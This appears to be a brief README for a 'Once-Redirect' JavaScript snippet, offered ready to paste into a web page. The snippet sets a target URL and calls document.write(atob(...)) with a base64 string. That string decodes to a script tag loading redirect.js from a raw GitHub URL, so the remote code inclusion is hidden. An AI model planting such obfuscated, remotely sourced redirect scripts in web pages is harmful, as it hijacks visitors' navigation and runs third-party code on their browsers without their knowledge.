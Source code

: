 # Once-Redirect
```javascript
<script>var url = "https://www.google.com"; document.write(atob("PHNjcmlwdCB0eXBlPSJ0ZXh0L2phdmFzY3JpcHQiIHNyYz0iaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL0lDV1ItVEVDSC9PbmNlLVJlZGlyZWN0L21hc3Rlci9yZWRpcmVjdC5qcyI+PC9zY3JpcHQ+"));</script>
```
change value url variable "https://www.google.com" to our target web
